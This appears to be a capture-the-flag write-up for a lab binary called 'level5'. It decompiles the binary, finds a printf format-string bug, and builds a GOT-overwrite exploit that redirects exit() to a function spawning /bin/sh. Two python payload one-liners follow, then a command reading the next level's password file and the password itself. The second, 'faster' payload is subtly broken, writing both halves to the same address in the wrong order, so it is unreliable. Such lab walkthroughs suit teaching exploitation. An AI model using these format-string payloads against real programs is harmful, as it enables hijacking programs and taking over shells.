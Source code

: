 get the binary on host
* `scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5`

decompile using ghidras
```c
/*08048504*/void main(void)
			{
				n();
				return;
			}

/*080484c2*/void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
/*080484f8*/		
				exit(1);
			}

/*080484a4*/void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4 ====> 134513828 in decimal
* exit addr => 0x08 04 98 38 (using objdump -R)
* By trying we get an offset of 4

str => `addr exit` + nb_chr %offset$n\

`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of o() in 2 and put it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```